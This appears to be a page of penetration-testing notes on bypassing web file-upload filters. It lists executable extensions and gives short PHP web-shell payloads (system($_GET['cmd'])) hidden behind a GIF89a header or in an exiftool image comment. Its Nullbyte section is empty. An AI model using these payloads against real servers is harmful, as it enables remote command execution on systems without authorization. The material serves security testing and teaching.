 # **File Upload bypass**

One common way to gain a shell is actually not really a vulnerability, but a feature! Often times it is possible to upload files to the webserver. This can be abused byt just uploading a reverse shell. The ability to upload shells are often hindered by filters that try to filter out files that could potentially be malicious. So that is what we have to bypass.

## **Rename Shell <a href="#rename-it" id="rename-it"></a>**

We can rename our shell and upload it as shell.php.jpg. It passed the filter and the file is executed as php.

**php** phtml, .php, .php3, .php4, .php5, and .inc

**asp** asp, .aspx

**perl** .pl, .pm, .cgi, .lib

**jsp** .jsp, .jspx, .jsw, .jsv, and .jspf

**Coldfusion** .cfm, .cfml, .cfc, .dbm

## **GIF89a; <a href="#gif89a" id="gif89a"></a>**

If they check the content. Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```
GIF89a;system($_GET['cmd']);//or you can insert your complete shell code?>
```

## **In image <a href="#in-image" id="in-image"></a>**

```
exiftool -Comment='"; system($_GET['cmd']); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file

mv lo.jpg lo.php.jpg

## **Nullbyte <a href="#nullbyte" id="nullbyte"></a>**

## **References <a href="#references" id="references"></a>**

​[http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)​
